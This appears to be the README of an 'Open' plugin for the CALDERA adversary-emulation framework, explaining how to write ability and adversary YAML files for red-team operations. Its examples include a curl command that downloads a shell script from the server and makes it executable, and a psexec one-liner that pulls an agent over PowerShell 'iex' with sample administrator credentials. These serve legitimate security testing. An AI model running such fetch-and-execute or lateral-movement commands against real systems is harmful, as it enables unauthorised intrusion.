 # CALDERA plugin: Open

This plugin contains:

* Open-source abilities and adversaries
* A filestore
* A basic planner (sequential) which runs all abilities on all hosts in a group

You can quickly add your own abilities and adversaries, both of which are reloaded every time
the core server reboots.

### Adding new abilities

Add a .yml file in the abilities directory, named after a unique ID (UUID-4 is our standard). 
This file should include an ID, name, description, ATT&CK tactic and command.

Below is an example ability:
```
- id: c0da588f-79f0-4263-8998-7496b1a40596
  name: Identify active user
  description: Platform agnostic way to find the active user
  tactic: discovery
  command: |
    whoami
```

As you write commands, note that there are two global variables available, server and group.

A variable is referenced with the syntax #{variable} and can be placed anywhere inside a command. 

* Server/#{server}: The location of CALDERA. Because each agent may have a different reference point
for where CALDERA is (IP, FQDN, etc), if an ability wants to reference CALDERA it should use #{server}. 
* Group/#{group}: The group used in the active operation.

An example of an ability using a variable is shown below. 
```
- id: e9bcdf0d-be08-4aec-bf1e-e73655403d55
  name: Download WIFI tools
  description: Download a set of commands for manipulating WIFI
  tactic: discovery
  technique:
    attack_id: T1016
    name: System Network Configuration Discovery
  command: |
    curl -sk -X POST -H 'file:wifi.sh' #{server}/file/download > /tmp/wifi.sh &&
    chmod +x /tmp/wifi.sh
  cleanup:
    rm /tmp/wifi.sh
```

The example above also demonstrates how any ability can download files from CALDERA. Downloadable files
should live in the filestore directory, of any plugin, then any ability can download them by calling
the /file/download REST endpoint with the filename passed in as a header. 

The group variable is a bit more advanced. This is useful primarily for lateral movement abilities where
the agent may move itself to a new host. A snippet of what this may look like (for PSExec) would be
```
psexec \\127.0.0.1 -u administrator -p password123 Powershell.exe iex (irm -Method Post -Headers @{'file'='54ndc47.ps1'}  #{server}/file/render?group=#{group})
```

Consult the 54ndc47 agent's delivery commands to see the various ways to deploy by specifying (or not specifying) 
a group.

### Adding new adversaries

New adversaries can be added to the adversaries.yml file.


